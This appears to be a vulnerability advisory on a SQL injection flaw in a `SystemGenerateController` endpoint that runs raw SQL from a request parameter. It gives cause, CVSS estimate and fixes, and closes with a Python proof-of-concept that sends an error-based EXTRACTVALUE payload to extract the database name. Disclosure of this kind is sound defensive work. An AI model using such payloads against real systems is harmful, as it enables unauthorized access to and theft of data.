 ### Vulnerability Type:
SQL Injection

### Vulnerability Description:
SQL Injection is a code injection technique that might allow an attacker to execute malicious SQL statements that control a web application's database server.

### Cause of Vulnerability:
The vulnerability is caused by the lack of proper input validation and parameterized queries. The method `create()` in `SystemGenerateController` takes a SQL statement directly from the request parameter `sql` and executes it without any validation or sanitization. This allows an attacker to inject arbitrary SQL code.

### CVSS Score:
The CVSS score for SQL Injection is typically high. It can be 9.8 (Critical) in CVSS v3.x for a network attack that doesn't require privileges and user interaction.

### Fix Solution:
To fix this vulnerability, you should:
1. Use parameterized queries or prepared statements to ensure that user input cannot be interpreted as SQL code.
2. Implement input validation to reject any suspicious or malformed input.
3. Employ stored procedures that encapsulate the SQL statements and treat input parameters as data, not executable code.
4. Use an allowlist approach to validate input against a set of specific rules.

### Proof of Concept (PoC) Code:
The provided PoC code demonstrates how an attacker could exploit the SQL Injection vulnerability in the application. Here are the Python scripts for each PoC:

#### Error-based SQL Injection PoC:
```python
import requests

# Target URL
url = "http://vulnerable.host/system/generate/create"

# Malicious SQL statement to trigger an XML parsing error and attempt to retrieve the database name
sql_injection = "SELECT EXTRACTVALUE(1, CONCAT(0x3a, (SELECT database())))"

# Construct POST data
data = {
    'sql': sql_injection
}

# Send POST request
response = requests.post(url, data=data)

# Output response content, which may include database version information due to the error
print(response.text)
```
